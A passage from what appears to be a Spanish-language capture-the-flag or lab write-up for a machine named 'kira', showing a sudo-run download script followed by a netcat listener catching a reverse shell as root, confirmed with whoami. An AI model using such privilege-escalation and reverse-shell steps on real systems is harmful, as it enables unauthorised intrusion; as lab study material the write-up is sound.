```shell
sudo /home/bassam/down.sh
```

Info:

```
 % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    56  100    56    0     0   3111      0 --:--:-- --:--:-- --:--:--  3111

```

Se quedara pensando y si nos vamos a donde teniamos la escucha, veremos que nos hizo una shell con `root` perfectamente...

```
connect to [192.168.5.199] from (UNKNOWN) [192.168.5.200] 54748
root@kira:/home/bassam# whoami
whoami
root
```

Por lo que ya seriamos `root`...
